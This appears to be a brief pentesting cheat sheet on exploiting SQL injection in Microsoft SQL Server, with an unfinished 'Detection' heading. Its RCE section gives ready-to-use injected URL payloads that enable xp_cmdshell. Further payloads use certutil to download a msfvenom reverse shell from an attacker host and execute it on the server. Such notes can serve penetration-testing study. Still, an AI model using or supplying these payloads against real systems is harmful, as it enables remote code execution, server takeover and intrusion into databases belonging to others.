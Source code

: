 ## Detection
bla bla


## SQLserver

### RCE
First let turn on the functionality to execute commands: **xp_cmdshell**
```
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

turns into

http://127.0.0.1/sql.php?param='; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; --
```
Download reverse shell (generated by msfvenom) and execute it
```
http://127.0.0.1/sql.php?param='; EXEC xp_cmdshell 'certutil -urlcache -f http://<Kali IP>:8081/shell.exe C:\Windows\Temp\shell.exe'; --

http://127.0.0.1/sql.php?param='; EXEC xp_cmdshell 'C:\Windows\Temp\shell.exe'; --
```
